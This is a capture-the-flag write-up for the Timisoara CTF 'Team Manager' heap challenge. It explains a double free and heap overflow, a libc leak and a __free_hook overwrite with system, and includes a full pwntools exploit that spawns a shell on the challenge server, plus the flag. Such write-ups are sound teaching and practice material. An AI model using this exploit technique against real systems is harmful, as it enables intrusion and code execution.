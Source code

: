 ```yaml
---
title: "Team Manager [300]"
tags: [Timisoara CTF, Binary Exploitation]
excerpt: "Binary Exploitation"
layout: single
classes: wide
--- 
```


**Category:** Binary Exploitation 

> I found the team manager service used for Timisoara CTF. Do you think it is secure?  
nc 89.38.208.144 11114

## Write-up
Running the binary instantly shows this is a standard heap challenge:
```
Welcome to the Timctf Team Manager
1: Add player
2: Remove player
3: Edit player
4: View player
5: View team
0: Exit
```

After analyzing the binary using Ghidra, a few observations can be made:
* Chunks on the heap can be freed multiple times without checks. There is a double free() vulnerability, which leaks an address pointing to the heap.
* Input is vulnerable to a heap overflow. By overflowing the "comments" section for one chunk, we can overwrite addresses on the following chunk.

The exploit follows the following order:

1. **Leak heap address**  
Leak the heap address using the double free() vulnerability. The address is stored in the "reversing and exploitation" and "crypto" areas in the heap. Viewing the team outputs the leaked heap address.

2. **Leak printf address**  
Using the heap overflow, overwrite the pointer to the "comments" section in the second chunk with the address of `printf` in the `GLOBAL OFFSET TABLE (GOT)`.Viewing the second player outputs the leaked `printf` address.

3. **Calculate libc base**  
Standard ret2libc procedure. Libc base can be calculated using `printf - printf_offset`, where `printf` is the leaked address and `printf_offset` is the address of `printf` in libc. With libc base value, the address of `__free_hook` and `system` can be calculated using `libc_base + system_offset` and `libc_base + __free_hook_offset` respectively.

4. **Overwrite __FREE_HOOK pointer with system**  
Overwrite the pointer to the "comments" section in the second chunk with the address of `__free_hook`. This makes the pointer point to the `__free_hook` instead. `__free_hook` can then be overwritten with the address of `system` by editing the "comments" of the second chunk. Calling free() now calls system() instead.

5. **Write /bin/sh into heap address**
Write the string `/bin/sh\x00` (*0x0068732f6e69622f* in hex) into the leaked heap address. The argument for free() is stored in this address when free() is called. When calling free() on first chunk, system(/bin/sh) is called instead, which executes a shell.

Here's the final exploit:
```python
from pwn import *
from LibcSearcher import LibcSearcher
import sys

config = {
    "elf" : "./timctf_manager",
    "libc" : "./libc-2.27.so",
    "ld" : "./ld-2.27.so",
    "HOST" : "89.38.208.144",
    "PORT" : 11114,
}

def add(pid, name, reversing, web, crypto, forensics, comment):
	sla("0: Exit", "1")
	sla("Enter player id (1-4) ", str(pid))
	sla("Player's name: ", name)
	sla("Player's skill at reversing and exploitation: ", str(reversing)) 
	sla("Player's skill at web exploit: ", str(web))
	sla("Player's skill at crypto: ", str(crypto))
	sla("Player's skill at forensics: ", str(forensics))
	sla("Extra note/comment: ", comment)

def remove(pid):
	sla("0: Exit", "2")
	sla("Enter player id (1-4) ", str(pid))

def edit(pid, name, reversing, web, crypto, forensics, comment):
	sla("0: Exit", "3")
	sla("Enter player id (1-4) ", str(pid))
	sla("Player's name: ", name)
	sla("Player's skill at reversing and exploitation: ", str(reversing)) 
	sla("Player's skill at web exploit: ", str(web))
	sla("Player's skill at crypto: ", str(crypto))
	sla("Player's skill at forensics: ", str(forensics))
	sla("Extra note/comment: ", comment)

def viewplayer(pid):
	sla("0: Exit", "4")
	sla("Enter player id (1-4) ", str(pid))

def viewteam():
	sla("0: Exit", "5")

def tohex(val, nbits):
  return hex((val + (1 << nbits)) % (1 << nbits))

def exploit(p):
	print_menu = 0x00400827
	printf_got = elf.got['printf']
	data  = elf.get_section_by_name(".data").header.sh_addr

	add(1, "", 1, 2, 3, 4, "")
	add(2, "", 1, 2, 3, 4, "")
	remove(1)
	remove(1)
	viewteam()

	ru('reversing and exploitation: ')
	lo = int(p.recvline().strip())
	lo = str(tohex(lo, 32))[2:]
	ru("crypto: ")
	hi = str(hex(int(p.recvline().strip())))
	leak = int(hi + lo, 16)

	payload = "\x90"*264 + p64(0x61) + p32(2)*4 + p64(printf_got)

	edit(1, "", 1, 1, 1, 1, payload)
	viewplayer(2)
	ru("Extra note/comment: ")

	printf = u64(r(8))
	base = printf - libc.symbols['printf']
	free_hook = base + libc.symbols['__free_hook']
	system = base + libc.symbols['system']
	
	payload = "\x90"*264 + p64(0x61) + p32(2)*4 + p64(free_hook)
	edit(1, "", 1, 1, 1, 1, payload)
	edit(2, "", 2, 2, 2, 2, p64(system))

	payload = "\x90"*264 + p64(0x61) + p32(2)*4 + p64(leak)
	edit(1, "", 1, 1, 1, 1, payload)
	edit(2, "", 2, 2, 2, 2, p64(0x0068732f6e69622f))
	remove(1)
	
	p.interactive()

if __name__ == "__main__":
    elf = context.binary = ELF(config["elf"])

    if "libc" in config.keys() and config["libc"]:
        libc = ELF(config["libc"])

    if sys.argv[-1] == "remote":
        p = remote(config["HOST"], config["PORT"])
    else:
        if "libc" in dir(): 
            p = process([config["ld"], config["elf"]], env={"LD_PRELOAD" : config["libc"]})
        else: 
            p = process(config["elf"])

        pause()

    sl = lambda a: p.sendline(a)
    sla = lambda a,b: p.sendlineafter(a,b)
    r = lambda a: p.recv(a)
    ru = lambda a: p.recvuntil(a)
    lg = lambda a : log.info(a)

    exploit(p)
```

**Flag:** TIMCTF{Heap_overfl0ws_are_really_B4D}